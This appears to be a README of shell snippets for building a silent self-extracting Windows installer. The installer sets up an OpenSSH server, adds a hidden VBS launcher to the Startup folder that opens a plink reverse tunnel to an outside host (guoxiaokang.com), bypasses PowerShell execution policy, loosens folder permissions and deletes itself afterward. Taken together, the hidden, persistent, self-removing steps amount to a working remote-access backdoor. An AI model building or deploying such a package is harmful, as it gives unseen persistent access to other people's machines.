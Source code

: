 ##### # Download OpenSSH-Win64 and plink then pack all things up
```shell
wget https://github.com/PowerShell/Win32-OpenSSH/releases/download/V8.6.0.0p1-Beta/OpenSSH-Win32.zip 
unzip OpenSSH-Win32.zip 
mv OpenSSH-Win32 OpenSSH
wget https://the.earth.li/~sgtatham/putty/latest/w32/plink.exe -O OpenSSH/plink.exe 
```
##### # Download OpenSSH-Win64 and plink then pack all things up
```shell
wget https://github.com/PowerShell/Win32-OpenSSH/releases/download/V8.6.0.0p1-Beta/OpenSSH-Win64.zip 
unzip OpenSSH-Win64.zip 
mv OpenSSH-Win64 OpenSSH
wget https://the.earth.li/~sgtatham/putty/latest/w64/plink.exe -O OpenSSH/plink.exe 
```
##### # Generate identity files: 
```shell
ssh-keygen -t rsa -b 4096 -N '' -C '' -f OpenSSH/id_rsa 
sudo apt install putty-tools  
puttygen OpenSSH/id_rsa -o OpenSSH/id_rsa.ppk
``` 
##### # Send Identity files to remote host
```shell
scp OpenSSH/id_rsa.pub com:/home/win7/.ssh/authorized_keys
scp OpenSSH/id_rsa com:/home/win7/.ssh/id_rsa
ssh com chown -R win7:win7 /home/win7/.ssh
ssh com chmod -R 500 /home/win7/.ssh
```
##### # Replace configuration files:
```shell
cat << EOF > OpenSSH/sshd_config_default
ListenAddress 127.0.0.1
ListenAddress ::1
Port 2222

PermitEmptyPasswords no
PasswordAuthentication no
PubkeyAuthentication yes
AllowTcpForwarding yes
Subsystem sftp sftp-server.exe
EOF
```
```shell
CR=$'\r'
cat << EOF > OpenSSH/ssh.bat
cd "%USERPROFILE%\.ssh"$CR
echo yes | plink.exe -i id_rsa.ppk -N -R 22222:localhost:2222 win7@guoxiaokang.com 
EOF
```
```shell
cat << EOF > OpenSSH/ssh.vbs
Set WshShell = CreateObject("WScript.Shell")$CR
WshShell.Run chr(34) & "%USERPROFILE%\Desktop\ssh.bat" & Chr(34), 0$CR
Set WshShell = Nothing$CR
EOF
```
##### # Create installation file:
```shell
cat << EOF > install.bat
cd "%~dp0"$CR
mkdir "%USERPROFILE%\.ssh"$CR
move OpenSSH\plink.exe  "%USERPROFILE%"\.ssh$CR
move OpenSSH\id_rsa.ppk "%USERPROFILE%"\.ssh$CR
move OpenSSH\id_rsa.pub "%USERPROFILE%"\.ssh\authorized_keys$CR
move OpenSSH\ssh.bat    "%USERPROFILE%\Desktop"$CR
WSCript OpenSSH\ssh.vbs$CR
move OpenSSH\ssh.vbs "%USERPROFILE%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\"$CR
$CR
move OpenSSH "%PROGRAMFILES%\"$CR
cd "%PROGRAMFILES%"$CR
icacls OpenSSH /grant Users:(OI)(CI)(F)$CR
powershell -ExecutionPolicy Bypass -File OpenSSH\install-sshd.ps1$CR
powershell Start-Service -Name "sshd"$CR
powershell Start-Service -Name "ssh-agent"$CR
powershell Set-Service -Name "sshd" -StartupType Automatic$CR
powershell Set-Service -Name "ssh-agent" -StartupType Automatic$CR
cd "%~dp0"$CR
del OpenSSH.exe install.bat$CR
EOF
```
```shell
echo yes | zip -r OpenSSH.zip OpenSSH install.bat
scp OpenSSH.zip nuc:/var/www/html
```
##### # SFX
``` 
;The comment below contains SFX script commands

Silent=1
Overwrite=1
```
##### # Test
```shell
ssh -o "StrictHostKeyChecking=no" -i .ssh/id_rsa -p 22222 -NfD 18888 a@localhost
curl -x socks5h://localhost:18888 http://www.google.com/
```
